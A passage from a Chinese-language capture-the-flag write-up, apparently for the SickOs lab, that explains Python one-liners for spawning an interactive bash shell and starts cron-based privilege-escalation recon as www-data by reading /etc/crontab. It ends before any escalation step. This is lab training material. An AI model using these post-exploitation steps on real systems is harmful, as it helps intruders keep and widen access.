 highlighter\- llvm
```
python -c '__import__("pty").spawn("/bin/bash")'

这条命令与第一条类似，只是使用了 __import__ 函数来动态导入 pty 模块。这种方式同样会创建一个伪终端，并且提供良好的交互性。
```

highlighter\- vim
```
python -c "import os;os.system('/bin/bash')"

这条命令使用了 os 模块的 system 函数来启动一个新的 shell 会话。os.system 函数会调用系统的 system 函数，后者会通过 /bin/sh 来执行指定的命令。这种方式启动的 shell 会话有一些限制：
交互性较差：虽然 os.system 可以启动一个 shell，但它不会创建一个伪终端。这意味着你可能无法使用一些终端控制字符和信号处理功能，交互体验较差。
子进程管理：os.system 会在当前进程中启动一个新的子进程来执行命令。当命令执行完毕后，控制权会返回给父进程。这意味着如果你直接在命令行中运行 os.system('/bin/bash')，你会得到一个新的 shell 会话，但一旦你退出这个 shell，控制权会返回到原来的 Python 脚本。
```

## 自动任务提权


#### 信息收集 找到突破口cron.d下automate自动任务执行/var/www/connect.py


cd 到根目录后，我先看了/etc下的cron自动任务，


highlighter\- tap
```
drwxr-xr-x  2 root root    4096 Sep 22  2015 console-setup
drwxr-xr-x  2 root root    4096 Dec  5  2015 cron.d
drwxr-xr-x  2 root root    4096 Sep 22  2015 cron.daily
drwxr-xr-x  2 root root    4096 Sep 22  2015 cron.hourly
drwxr-xr-x  2 root root    4096 Sep 22  2015 cron.monthly
drwxr-xr-x  2 root root    4096 Sep 22  2015 cron.weekly
-rw-r--r--  1 root root     722 Jun 20  2012 crontab
```

cat看一眼发现这些自动任务的权限都只有/bin/sh，例如crontab，如果是/bin/bash，就可以直接尝试使用这些自动任务进行提权


highlighter\- awk
```
www-data@SickOs:/etc$ cat crontab
cat crontab
# /etc/crontab: system-wide crontab
# Unlike any other crontab you don't have to run the `crontab'
# command to install the new version when you edit this file
# and files in /etc/cron.d. These files also have username fields,
# that none of the other crontabs do.

SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# m h dom mon dow user  command
17 *    * * *   root    cd / && run-parts --report /etc/cron.hourly
25 6    * * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6    * * 7   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6    1 * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
#
```
